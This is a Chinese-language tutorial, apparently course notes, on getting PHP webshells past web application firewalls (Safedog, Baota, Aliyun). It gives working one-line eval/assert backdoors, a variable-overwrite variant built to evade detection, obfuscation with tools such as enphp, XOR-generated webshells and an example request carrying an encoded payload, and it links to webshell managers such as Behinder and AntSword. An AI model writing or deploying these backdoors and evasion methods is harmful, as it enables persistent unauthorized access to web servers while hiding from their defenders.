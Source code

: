 ## 思维导图

![](image48/权限控制.png)



#### Safedog 代码层手写及脚本绕过

变量覆盖，加密混淆，异或生成

#### BT Aliyun 代码层手写及脚本绕过

编码解码(变量覆盖，加密混淆，异或生成)
ASP,PHP,ASPX,JSP,PY 等后门免杀同理



### 一句话后门的原理：

```php
<?php@eval($_POST['password']) ?>
```

- @再php中含义为后面如果执行错误不会报错
- eval（）函数表示括号里的语句全做代码执行
- $_POST['password']`表示从页面中以post方式获取变量password的值。

### 菜刀、蚂剑、冰蝎工具的基本原理

把一些具体执行语句集成化（各种各样在功能语句都帮你写好了），你直接连接执行就可！

### 菜刀，蚁剑，冰蝎优缺点

菜刀：未更新状态，无插件，单向加密传输
蚁剑：更新状态，有插件，拓展性强，单向加密传输
冰蝎：更新状态，未知插件，偏向于后渗透，双向加密传输

冰蝎加密原理

冰蝎"在服务端支持open_ssl时，使用AES加密算法，密钥长度16位，也可称为AES-16。此在软件及硬件(英特尔处理器的AES指令集包含六条指令)上都能快速地加解密，内存需求低，非常适合流量加密。

加密流程

![](image48/48-28.jpeg)

首先客户端以Get形式发起带密码的请求。

服务端产生随机密钥，将密钥写入Session并将密钥返回客户端。

客户端获取密钥后，将payload用AES算法加密，用POST形式发送请求。

服务端收到请求，用Session中的密钥解密请求的Body部分，之后执行Payload，将直接结果返回到客户端。

客户端获取返回结果，显示到UI界面上。



### 变量覆盖

#### 原型后门

```
<?php assert($_POST['chopper'])?>
```

![](image48/48-0.png)

安全狗轻而易举就查到木马

![](image48/48-1.png)



#### 变量覆盖

![](image48/48-5.png)

```php
<?php
$a = $_GET['x'];
$$a = $_GET['y'];
$b($_POST['z']);

//?x=b&y=assert
//$a = b
//$$a ->$b 变量引用
//$b= assert
//$b($_POST['z']);--->assert($_POST['z'])

?>
```

把敏感字符传递的参数中，waf能够确定你的代码，但是确定不了你传递的参数值

safedog有变量追踪

简单的拆分，直接报马

![](image48/48-6.png)

![48-9](image48/48-9.png)

![](image48/48-8.png)

#### 原型效果

![48-10](image48/48-10.png)



![](image48/48-2.png)

#### 变量覆盖效果（本地safedog测试）

![](image48/48-7.png)

#### 变量覆盖效果（aliyun+safedog +bt 测试）

被BT拦截

![](image48/48-12.png)

传入值触发防护规则

![](image48/48-11.png)

加密绕过即可

![](image48/48-15.png)

![](image48/48-13.png)

稳定、可靠

![48-14](image48/48-14.png)

### 加密混淆

#### enphp工具

运行

```
php.exe code_test.php
```

![48-17](image48/48-17.png)

![48-18](image48/48-18.png)

![](image48/48-16.png)



![](image48/48-19.png)



![](image48/48-20.png)

#### 网络接口加密（更稳）

![](image48/48-21.png)



![](image48/48-22.png)

![](image48/48-23.png)

依旧很稳

![](image48/48-24.png)



### 异或生成

#### webshell-venom-master工具

直接运行程序，即可生成webshell

![](image48/48-25.png)

免杀

![48-26](image48/48-26.png)

很稳

```txt
http://test.xiaodi8.com/x.php?id=x
mr6=cGhwaW5mbygpOw==
```

![](image48/48-27.png)



### 行为造轮子

waf基本都有菜刀、蚁剑、冰蝎的指纹，当你使用他们的时候，一些危害行为会被拦截！

要想不被识别拦截，只能自己造轮子！

自己写数据包，不会有那些指纹特征，就能实现功能！

#### 扫描目录

![](image48/48-32.png)

#### 写入文件

![](image48/48-33.png)

#### 手写手写新型控制器

![](image48/48-37png.png)

### 演示案例

Safedog-手写覆盖变异简易代码绕过-代码层

Safedog-基于接口类加密混淆代码绕过-代码层

BT,Aliyun-基于覆盖加密变异下编码解码绕过-代码层

Safedog-基于工具功能数据包指纹修改变异绕过-行为层

Safedog,BT,Aliyun-基于冰蝎新型控制器绕过全面测试-行为层

Safedog,BT,Aliyun-基于手写新型控制器绕过全面测试-行为层  

## 涉及资源：

https://github.com/djunny/enphp
https://www.phpjiami.com/phpjiami.html
https://github.com/rebeyond/Behinder/releases/
https://github.com/AntSwordProject/antSword/releases
https://pan.baidu.com/s/1msqO2kps139NNP9ZEIAVHw 提取码：
xiao



